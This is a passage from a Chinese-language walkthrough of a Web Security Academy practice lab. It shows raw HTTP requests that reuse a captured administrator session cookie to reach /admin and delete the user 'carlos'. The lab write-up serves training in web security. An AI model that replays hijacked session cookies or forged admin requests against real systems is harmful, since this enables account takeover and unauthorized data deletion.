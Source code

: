 ```plain
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

[![](assets/1705287960-fd2632bfc61d11f10099652e8f263454.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104051-d5e64e34-b02a-1.png)  
Step 3：随后我们直接访问复制会话cookie并使用它发送以下请求

```plain
GET /admin HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```

[![](assets/1705287960-1c742cbbead6e23bef9d1c7e43bb08bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104118-e60c45ca-b02a-1.png)

Step 4：从上面我们可以看到成功利用admin的会话进入到控制面板中去，随后我们继续使用获取到的会话进行用户的删除操作

```plain
GET /admin/delete?username=carlos HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB
```
